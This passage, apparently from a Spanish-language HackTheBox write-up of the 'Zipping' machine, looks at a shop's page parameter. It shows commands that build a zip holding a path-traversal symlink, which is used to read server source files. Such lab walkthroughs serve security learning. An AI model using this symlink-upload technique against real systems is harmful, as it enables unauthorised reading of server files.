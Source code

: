 Si exploramos el sitio web, más especificamente la sección **Store**, podemos observar que las páginas de este componente del sitio se determinan en base al parámetro `page` enviado a través de la url.

```bash
http://zipping.htb/shop/index.php?page=products
http://zipping.htb/shop/index.php?page=cart
http://zipping.htb/shop/index.php?page=product&id=2
```

Intentemos leer estos archivo por medio de la técnica vista anteriormente.

```bash
ln -s ../../../../../../../var/www/html/shop/products.php file.pdf
zip --symlinks file.zip file.pdf
```

![Zipping](/assets/img/htb/zipping/zipping-23.png)
_Curl_

![Zipping](/assets/img/htb/zipping/zipping-24.png){: width="700" height="400" }
_Curl_
